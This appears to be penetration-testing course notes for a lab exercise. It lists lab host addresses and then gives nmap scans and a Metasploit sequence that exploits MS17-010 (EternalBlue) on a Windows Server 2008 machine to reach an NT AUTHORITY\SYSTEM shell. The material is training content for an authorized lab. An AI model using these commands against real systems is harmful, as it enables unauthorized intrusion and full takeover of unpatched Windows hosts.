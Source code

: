 Penetration Test - Privilege Escalation
===

🔙 [MENU README](../README.md)


# iLab
Module 6 
```
Parrot Security       192.168.0.18    172.19.19.18
Windows Server 2019   192.168.0.20
Windows Server 2008   192.168.0.7, 21
SSH Server            192.168.0.70
WordPress             192.168.0.24
```

---

# MS17-010
Detect and Scan
```bash

nmap 192.168.0.7 -sVC -n -Pn
# 發現port 445

nmap 192.168.0.7 -sVC -n -Pn -p445 --script smb-protocols.nse
# 對 port 445深度探測，發現版本smb v1
# SMBv1 有 MS17_010 漏洞

nmap 192.168.0.7 -sVC -n -Pn -p445 --script smb-vuln-ms17-010.nse
# 針對 MS17_010 漏洞 進行探測


# Nmap中的Script : ls /usr/share/nmap/scripts/
```
Metasploit
```bash
msfconsole -q # without banner

# set paylaod
msf > search ms17_010
msf > use 2
msf > show options
msf > set rhosts 192.168.0.7
msf > check
msf > exploit  # Attack Success when see "WIN"


# WIN
getuid  # Server username: NT AUTHORITY\SYSTEM
shell
whoami
```


